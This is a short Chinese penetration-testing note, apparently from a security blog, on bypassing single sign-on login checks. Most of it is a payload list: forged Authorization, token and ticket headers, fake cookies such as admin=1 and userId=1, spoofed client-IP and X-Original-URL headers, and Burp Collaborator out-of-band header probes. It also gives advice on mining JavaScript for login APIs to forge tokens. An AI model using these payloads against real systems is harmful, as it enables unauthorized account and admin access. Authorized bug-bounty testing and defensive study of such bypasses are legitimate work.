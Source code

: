     
    X-Forwarded-For: a.burpcollaborator.net  
    True-Client-IP: b.burpcollaborator.net  
    Referer: http://c.burpcollaborator.net/

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230317155135.png)img

# 登陆口的跳转

这里分享两种情况，一个是我自己的 一个是pmiaowu师傅的

## pmiaowu师傅的分享

有时候，设计统一登录链接(SSO)各种站点的时候，判断是否登录，不会去真的获取登录信息，为了减少请求压力，都是判断数据包某个值是否存在，值可能就是下面的某个字段

    
    
    header头加:  
        Authorization: JWT 1  
        ticket: 1  
        token: 1  
    Cookie添加:  
        ticket=1;  
        Authorization=JWT 1;  
        token=1;  
        user=1;  
        userId=1;  
        UserId=1;  
        admin=1;  
        adminId=1;  
        adminid=1;  
        AdminId=1;  
        Adminid=1;  
        xh=1;  
        xuehao=1;  
        gh=1;  
        gonghao=1;  
        username=1;  
    header头加:  
        X-Forwarded-For: 10.10.10.10  
        x-originating-ip: 127.0.0.1  
        x-remote-ip: 127.0.0.1  
        x-remote-addr: 127.0.0.1  
        X-Real-IP: 192.168.1.1  
        X-Original-URL: /admin

## 自我分享

相关src平台的报告有期间查看时间，所以这边看不了就没有图了，主要就是对于一些统一的单点登录(SSO)验证的接口的跳转302，有时候你会看到在跳转之前还会有相关的登录显示，这种情况下可以尝试去观察下js的代码，去发现相关的登录接口构造账号密码的参数进行登陆，如果成功获取token的话那么就可以绕过单点登录，构造token来进行登陆单系统.

###  **来源**
